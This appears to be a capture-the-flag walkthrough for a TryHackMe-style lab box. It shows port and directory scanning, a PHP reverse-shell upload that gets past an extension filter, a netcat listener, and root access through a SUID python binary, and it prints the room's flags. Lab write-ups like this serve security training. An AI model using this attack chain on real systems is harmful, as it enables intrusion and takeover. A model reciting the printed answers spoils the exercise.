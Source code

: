 ### Scan the machine, how many ports are open?
```BASH
nmap -sV -p- 10.10.181.86
```
![image](https://github.com/user-attachments/assets/f2ec4d43-4cd6-441b-86b2-0cc4f762f78d)

<pre>2</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What version of Apache is running?
<pre>2.4.29</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What service is running on port 22?
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the hidden directory?
```BASH
gobuster dir -u "http://10.10.181.86/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```
![image](https://github.com/user-attachments/assets/f95da17f-b7b8-4ef8-a102-8922558fa8ea)

<pre>/panel/</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Find a form to upload and get a reverse shell, and find the flag.
Download the reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
Change the default IP address and port to your IP address and port `4444`.

![image](https://github.com/user-attachments/assets/ac128c0d-4ce4-4ee1-90bf-309049d10339)  

Save as shell.phtml, because there is an extension filter in the input. Start a listener.
```BASH
nc -lvnp 4444
```

<span style="line-height:0.5;">&nbsp;</span>

Go to `http://10.10.181.86/uploads/shell.phtml?cmd=id` to run the script.  

![image](https://github.com/user-attachments/assets/ebd1503a-c6a9-447f-9173-4a1f24ab03cc)

<span style="line-height:0.5;">&nbsp;</span>

Once the shell is triggered, upgrade the session.
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<span style="line-height:0.5;">&nbsp;</span>

Run the find command to search for user.txt flag.
```BASH
find / -name user.txt 2>/dev/null
```
![image](https://github.com/user-attachments/assets/d91a1700-6b91-4864-ae00-075bebb53648)

<pre>THM{y0u_g0t_a_sh3ll}</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Search for files with SUID permission, which file is weird?
Run the SUID file search.
```BASH
find / -perm -4000 -type f 2>/dev/null
```
![image](https://github.com/user-attachments/assets/162ac3c0-9fa4-4aff-8da9-413b02e1b9ab)

The weird SUID file is: 
<pre>/usr/bin/python</pre>

### root.txt
To escalate privillages run:
```BASH
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/f583a3f6-99d0-474e-bae5-35cef85b45d8)

Run the find command to search for root.txt flag.
```BASH
find / -name root.txt 2>/dev/null  
```
![image](https://github.com/user-attachments/assets/3bb6a472-e25f-43cc-8848-ac1a7a61ec48)

<pre>THM{pr1v1l3g3_3sc4l4t10n}</pre>


